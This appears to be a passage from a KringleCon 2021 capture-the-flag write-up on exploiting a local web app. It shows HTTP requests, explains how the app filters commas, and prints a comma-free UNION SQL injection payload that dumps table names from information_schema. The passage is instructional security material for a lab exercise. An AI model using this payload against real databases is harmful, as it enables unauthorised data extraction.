 {% highlight js %}

if (1){

    try {
<...>
console.log(query);
tempCont.query(query, reqparam, function(error, rows, fields){
<...>
{% endhighlight %}


{% highlight shell %}
GET /detail/2 HTTP/2
Host: localhost:1155

GET /detail/(1,2) HTTP/2
Host: localhost:1155
{% endhighlight %}


![Objective12 console log](/assets/kringlecon2021/objective12/objective12_consolelog.jpg)

We can see that the app is stripping out "," and replacing it with "OR id=". Fortunately, I found a post about crafting SQL strings without the need for commas - https://book.hacktricks.xyz/pentesting-web/sql-injection/mysql-injection#mysqlinjection-without-commas Using knowledge of crafting queries without commas, and a tip from the PortSwigger SQL injection cheat sheet (https://portswigger.net/web-security/sql-injection/cheat-sheet) about how to find tables & column values in mysql databases - I was able to craft the payload

Dump tables from information_schema.tables
{% highlight sql %}
(1),(1) union select * from (select 1)UT1 JOIN (SELECT table_name FROM information_schema.tables)UT2 on 1=1 JOIN (SELECT 3)UT3 on 1=1 JOIN (SELECT 4)UT4 on 1=1 JOIN (SELECT 5)UT5 on 1=1 JOIN (SELECT 6)UT6 on 1=1 JOIN (SELECT 7)UT7 on 1=1--
{% endhighlight %}

